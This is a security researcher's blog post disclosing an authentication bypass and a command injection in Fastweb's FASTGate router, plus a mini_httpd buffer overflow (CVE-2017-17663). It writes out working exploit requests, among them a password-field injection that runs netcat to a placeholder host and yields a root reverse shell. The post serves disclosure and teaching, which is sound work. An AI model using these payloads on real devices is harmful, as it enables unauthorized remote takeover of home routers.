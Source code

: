```yaml
---
layout: post
title:  "Hacking into a FASTGate router with a command injection (and a bunch of other vulnerabilities)"
subtitle: "Missing authentication, command injection in login page, buffer overflow on the web-server. Is this real life?"
date:   2018-10-13 22:14:42 +0100
author: "santoru"
visible: 1
comments: true
---
```


This blog post describes how I found a couple of vulnerabilities in the FASTGate modem/router provided by Fastweb, an Italian telecommunication company, to its clients. Thanks to these vulnerabilities I was able to bypass the authentication layer as well as execute arbitrary code via command injection and get a reverse shell back to the router.
All vulnerabilities have been disclosed to Fastweb and are fixed in newer versions of the firmware.

## FASTGate: the latest generation modem from Fastweb
Fastweb[^1] is an Italian telecommunications company that provides internet services. Since around march 2017 the company started to ship a new modem to its client: the FASTGate[^2].
Working as a penetration tester, and having the possibility to test it out, I started to analyze its web interface in order to find some vulnerabilities that could give me some unintended access to it. Goal of the night: popping up a shell!\ 
First step was to set up Burp Suite as a proxy and navigate a bit through the webpages to save some request and response.
The first screen I got was the login panel, as shown in figure 1.

{% include image.html url="img/fastgate/login.png" description="Figure 1 - Login panel" %}

### Broken authentication layer
I logged in and started to browse some pages and execute actions in order to understand how requests were handled. The first thing I noticed was that the login request did not return any cookie nor any token to the client and this made me suspicious: did they implement some authentication at all? \
They didn't.

What I noticed was that the web application was simply sending AJAX requests to a cgi binary, called `status.cgi`, using a parameter called `nvget` to specify the action.
For example, the following GET request was enough to list all devices connected to the router, even in the past, with their assigned IP, their MAC address and their hostname:
```
GET http://192.168.1.254/status.cgi?nvget=pc_list
```
Just to have a nice output to show, I developed a python script that parses the json response and display it:

{% include image.html url="img/fastgate/userenum.png" description="Figure 2 - Devices enumeration" %}

### Unauthenticated command injection in login page
With this trivial _authentication bypass_ via the `status.cgi` binary, I went back to the login request and started to manually fuzz both the username and password fields. After few tests I noticed that the response of the server, after putting a single quotation mark into the password field, printed an interesting line:
```
HTTP/1.0 200 OK
sh: syntax error: unterminated quoted string
Content-type: text/html
```

Uhm.. what? Am I dreaming? Is my controlled input really used to execute a shell command with no sanitization at all?
I wanted to see if I could actually run some commands, so I tried executing `ping` which is usually a command installed on any distribution:
```
GET /status.cgi?_=1512070412178&cmd=3&nvget=login_confirm&password='$(ping)'&remember_me=1&username=admin HTTP/1.1
```
The response was the confirmation I was looking for:
{% include image.html url="img/fastgate/ping.png" description="Figure 3 - Ping command" %}


As shown, I can successfully send arbitrary command by adding to the password input the text ```'$(`command`)'```.
The impact of this vulnerability is full code execution on the router, but it's not clear what privileges I'm running with, having a shell to quickly interact with the router would be ideal!

#### Getting the reverse shell
The command execution is cool, but can we go further? Can we get a real shell into the system? Of course we can! After some enumeration done via the command injection, I noticed that the router shipped several `netcat` binaries, one of which was luckily compiled with support to the `-e` parameter that, quoting the man page, `execute external program after accepting a connection or making connection`.
Let's use this `nc` binary to run a reverse shell:
```
GET /status.cgi?cmd=3&nvget=login_confirm&password=AA'$(`/statusapi/usr/bin/nc%20LHOST%20LPORT%20-e%20/bin/bash`)AAremember_me=1&username=admin HTTP/1.1
```
This was enough to get a full reverse shell into the system, and guess what? The process is running as `root` so we get full access to the device. 

{% include image.html url="img/fastgate/poc.png" description="Figure 4 - Exploit executed to get a shell" %}


## Conclusions
For documentation purpose, the vulnerable software version that I tested is the `v1.0.1b`, with firmware version `0.00.47_FW_200_Askey2017-05-17 17:31:59`.\
It must be noted that in order to exploit the vulnerability the attacker must be authenticated to the Wi-Fi network, as the admin interface is exposed on the internal network.

{% include image.html url="img/fastgate/version.png" description="Figure 5 - Vulnerable version" %}


The communication with Fastweb didn't go very smooth. I tried to contact them multiple time to report this vulnerability but after an initial ack they stopped any communication with me.
Few weeks after my emails, they released a new firmware version that addressed most of the vulnerabilities:
- Login request now returns a session token that it is used to authenticate all requests to `status.cgi`, so it seems that they fixed the trivial "bypass".
- They initially added a CSRF protection by setting a cookie called `XSRF-TOKEN`: when sending a request, the web application send both the cookie and a `X-XSRF-TOKEN` header with the same value. There's no actual validation on the token value, no matter what the user decide to sent via these two headers, if the cookie matches the token value, the server will accept it.
- The command injection was still present in a bunch of updates, but was eventually fixed.

At the time, they didn't have any responsible disclosure program nor any specific security contact, but they did create one shortly after my first email. The Responsible Disclosure[^3] webpage they created has an Hall-of-Fame, but I was not mentioned there.


## Bonus: mini\_httpd v1.27 / thttpd v2.27 buffer overflow
One of the first things I noticed reading the response from the router was the `Server` header: `mini_httpd/1.27 07Mar2017`.\
According to the developer's website of `mini_httpd`[^4], it seemed to be the latest available version at the time and I couldn't find any public information about known vulnerabilities on it.

Since the source code was available, I started to do some analysis and I noticed a trivial buffer overflow in the `htpasswd.c` file, which turned out to be a custom and simplified version of the original _htpasswd_ utility developed for the Apache HTTP Server and used to`'create and update the flat-files used to store usernames and password for basic authentication of HTTP users`.\
The simplified version developed by ACME Laboratories had a buffer overflow vulnerability since the username parameter provided through the command line interface was copied into a buffer without any bound check. The vulnerability could be exploited to execute malicious payloads if the utility can be used remotely to set up, for example, an account: In this case an attacker can craft an exploit and gain code execution into the vulnerable system.\
After disclosing the vulnerability to the maintainer of the web-server an update that fixed the vulnerability was released through the developer's website.

### Disclosure timeline of the Buffer Overflow
- 01 December 2017 - Contacted the developer to ask how to report security findings
- 12 December 2017 - Sent the details of the vulnerability to the developer
- 13 December 2017 - Developer acknowledged the vulnerability
- 13 December 2017 - CVE assigned: _CVE-2017-17663_
- 04 February 2018 - Update released for mini\_httpd & thttpd and [advisory published](https://acme.com/updates/archive/199.html) for the vulnerability.

---

## Footnotes
[^1]: [Fastweb S.p.A.](https://www.fastweb.it/)
[^2]: [FASTGate](https://www.fastweb.it/myfastweb/assistenza/guide/FASTGate/)
[^3]: [Fastweb Responsible Disclosure](https://www.fastweb.it/corporate/responsible-disclosure/)
[^4]: [mini_httpd - small HTTP server](https://acme.com/software/mini_httpd/)